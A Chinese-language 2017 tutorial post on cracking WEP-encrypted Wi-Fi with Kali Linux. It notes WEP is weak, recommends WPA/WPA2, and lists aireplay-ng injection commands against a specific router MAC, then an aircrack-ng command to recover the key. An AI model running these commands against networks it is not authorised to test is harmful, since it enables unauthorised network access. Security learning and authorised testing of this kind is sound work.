 ```yaml
---
title: "Kali Linux破解wifi密码(WEP)"
categories: [ "安全" ]
tags: [ "wifi安全" ]
draft: false
slug: "Kali Linux破解wifi密码(WEP)-kalilinux破解wifi密码wep"
date: "2017-04-08 07:14:09"
---
```




WEP是无线路由器最初广泛使用的一种加密方式，这种加密方式非常容易被破解。

目前很少有人使用wep加密方式，但是还是会有。

建议：使用WPA/WPA2做为加密方式。

抓包和“破解wpa/wpa2”方法一样，参考其中的前4步

## 5) 加快Beacons和Data数据的收集速度

和破解WPA/WPA2不同的是，它只要抓取到足够的Beacons和Data数据就可以破解，理想情况下是100000+。你可以等，也可以使用aireplay加快这个进程。

    # aireplay-ng -1 0 -a C8:3A:35:30:3E:C8 wlan0mon
    # aireplay-ng -3 -b C8:3A:35:30:3E:C8 wlan0mon
    

等到抓取的数据充足，Ctrl+C停止。

## 6) 开始破解：

    # aircrack-ng ~/*.cap

最后，不要忘了结束无线网卡的监控模式：

    # airmon-ng stop wlan0mon
